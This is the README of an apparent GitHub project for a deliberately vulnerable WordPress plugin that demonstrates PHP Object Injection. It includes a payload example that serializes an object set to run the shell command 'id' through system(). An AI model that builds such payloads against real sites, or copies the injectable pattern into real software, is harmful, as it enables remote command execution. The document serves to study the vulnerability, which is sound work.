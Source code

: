# WP Object Injection Proof of Concept
This is a simple plugin to make PoC of PHP Object Injection in Wordpress.

## Payload Example
```php
echo serialize(new ObjectInjection("system","id"));
// O:15:"ObjectInjection":2:{s:20:"ObjectInjectioncmd";s:2:"id";s:20:"ObjectInjectionfcn";s:6:"system";}
```

